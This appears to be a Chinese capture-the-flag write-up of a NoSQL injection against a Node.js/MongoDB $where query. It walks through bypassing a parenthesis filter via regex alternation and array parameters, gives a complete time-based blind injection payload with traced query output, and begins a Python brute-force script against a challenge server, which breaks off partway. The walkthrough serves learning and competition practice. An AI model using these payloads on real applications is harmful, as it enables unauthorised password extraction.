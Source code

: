 ``` JavaScript
            var query = {"$where" : check_function};
            var newvalue = {$set : {last_access: moment().format('YYYY-MM-DD HH:mm:ss Z')}}
            dbo.collection(collection_name).updateOne(query,newvalue,function (e,r){
                if(e) throw e;
                res.send('ok');
                // ... implementing, plz dont release this.
            });
        })
        app.listen(8081)
    
    });
```

讲一下大体代码流程：
```
对传入的post键值对（key:value）进行处理
对每一个value进行检测，不允许存在 '('、')'、'#' 这几字符
再进行一次 replace( new RegExp('#'+k+'#','gm') ,JSON.stringify(req.body[k])) }  的替换
```
有几个代码注入的重要点在于

*   传入的post数据可以不是username和password
*   可以利用 | 的方式隔开 #，构成正则的或判断符
*   利用js的弱类型，传入数组，绕过（）的检测

还是直接上payload把，感觉讲起来有点绕，直接看输出结果可能更容易理解
```
**|=**&**|this.*word""\)|[]=+'X'+**&**|1;|[]=+sleep(300)+**&**|(this.password_\w+)|[]=+$1.substr(0,1)+**&**|"|=**
```
帮助理解的一些输出语句
```
match part :#,#,#,#,#,#                    //  **|=**   替换掉所有的#,防止
正在替换：| -----> 
query: if(this.username == ""username"" && ""username"" == "admin" && hex_md5(""password"") == this.password_0ugfcbsrbms){return 1;}else{return 0;}

match part :this.username == ""username"" && ""username"" == "admin" && hex_md5(""password"")
正在替换：|this.*word""\)| -----> +'X'+   // **|this.*word""\)|[]=+'X'+**    替换掉前面多余的字符串
query: if("+'X'+" == this.password_0ugfcbsrbms){return 1;}else{return 0;}

match part :1;
正在替换：|1;| -----> +sleep(3000)+       //**|1;|[]=+sleep(300)+**    传入延时函数，以数组形式绕过（）检测
query: if("+'X'+" == this.password_0ugfcbsrbms){return ["+sleep(3000)+"]}else{return 0;}

match part :this.password_0ugfcbsrbms
正在替换：|(this.password_\w+)| -----> +$1.substr(0,1)+ //**|(this.password_\w+)|[]=+$1.substr(0,1)+ 截断字符，单个比较**
query: if("+'X'+" == ["+this.password_0ugfcbsrbms.substr(0,1)+"]){return ["+sleep(3000)+"]}else{return 0;}

match part :",",",",","
正在替换：|"| ----->                   //  **|"|=** 将单个引号变成成对的双引号空字符
query: if(""+'X'+"" == [""+this.password_0ugfcbsrbms.substr(0,1)+""]){return [""+sleep(3000)+""]}else{return 0;}
```
然后爆破的字节位置以及猜测的字符串和延时长度都以及被控制了，剩下的写个脚本跑就好了
```python
    #encoding=utf8
    import requests, string, time
    
    url = "http://202.120.7.194:8081/check"
    char_range = string.printable
    #base_payload = '''|=&|this.*word""\)|=+'{}'+&|1;|[]=+sleep(1500)+&|(this.password_\w+)|[]=+$1.substr({},1)+&|"|='''
    
```